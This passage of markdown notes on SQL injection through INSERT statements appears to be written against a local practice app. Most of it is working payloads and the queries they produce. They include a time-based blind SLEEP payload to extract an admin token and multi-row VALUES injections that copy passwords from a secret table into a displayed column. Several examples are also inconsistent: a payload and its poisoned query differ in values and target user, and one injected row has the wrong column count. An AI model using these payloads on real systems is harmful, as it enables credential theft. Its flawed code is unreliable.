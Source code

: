 #### Case 3: user controls any INT column

```
# target of extraction: token => INT column of tbl_secret()
# table used in the query: tbl_post02()
# structure: `comment` => VARCHAR, pin => INT, `age` => INT, user => VARCHAR
# attacker controls the pin column

query = INSERT INTO tbl_post02() VALUES('hello', 100, 22, 'anonymous');
payload = (IF((SELECT token from tbl_secret WHERE user = 'admin') = 777, sleep(10), 2)), 0, 'anonymous')#

poisoned query =  INSERT INTO tbl_post02() VALUES('blah', (IF((SELECT token from tbl_secret WHERE user = 'admin') = 777, sleep(10), 99)), 66, 'anonymous')#', 100, 22, 'anonymous');
```

### Scenario: App displays columns of the table where the user tries to INSERT an entry

#### Case 0: App displays only one INT column

* Similar `Case 3: user controls any INT column`: we need to use same blind injection techniques.

#### Case 1: App displays only one VARCHAR column that user controls

* The same way, we need to add two entries in one INSERT query and put the payload on the displayed column.

```
# http://localhost:5000/case02
# target of extraction: token => INT column of tbl_secret()
# table used in the query: tbl_post02()
# structure: `comment` => VARCHAR, pin => INT, `age` => INT, user => VARCHAR
# attacker controls the comment column
# only comment column is displayed in the UI

query = INSERT INTO tbl_post02() VALUES('hello', 100, 22, 'anonymous');
payload = blah_comment', 0, 0, 'anonymous'),((SELECT password from tbl_secret WHERE user = 'admin'), 0, 0, 'anonymous')#

poisoned query = INSERT INTO tbl_post02() VALUES('blah_comment', 0, 0, 'anonymous'),((SELECT password from tbl_secret WHERE user = 'abhi'), 0, 0, 'anonymous')#', 100, 22, 'anonymous');
```

#### Case 2: App displays only one VARCHAR column that comes before the column that the user controls

The same way, we need to add two entries in one INSERT query and put the payload on the displayed column.

```
# target of extraction: token => INT, password => VARCHAR of tbl_secret()
# table used in the query: tbl_post02()
# structure: `comment` => VARCHAR, pin => INT, `age` => INT, user => VARCHAR
# attacker controls the user column
# only comment column is displayed in the UI

query = INSERT INTO tbl_post02() VALUES('hello', 100, 22, 'anonymous');
payload = blah_user'),((SELECT password from tbl_secret WHERE user = 'abhi'), 0, 0, 'anonymous')#

poisoned query = INSERT INTO tbl_post02() VALUES('blah_user'),((SELECT password from tbl_secret WHERE user = 'abhi'), 0, 0, 'anonymous')#', 100, 22, 'anonymous');
```
